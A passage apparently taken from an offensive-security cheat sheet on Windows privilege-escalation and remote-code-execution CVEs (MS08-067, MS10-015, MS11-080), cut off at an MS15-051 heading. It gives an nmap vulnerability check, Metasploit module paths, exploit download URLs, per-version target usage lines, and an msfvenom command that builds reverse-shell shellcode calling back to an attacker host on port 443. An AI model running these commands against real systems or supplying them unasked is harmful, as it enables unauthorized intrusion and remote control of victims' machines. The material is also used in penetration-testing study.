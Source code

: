 
## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```


### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7 

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012
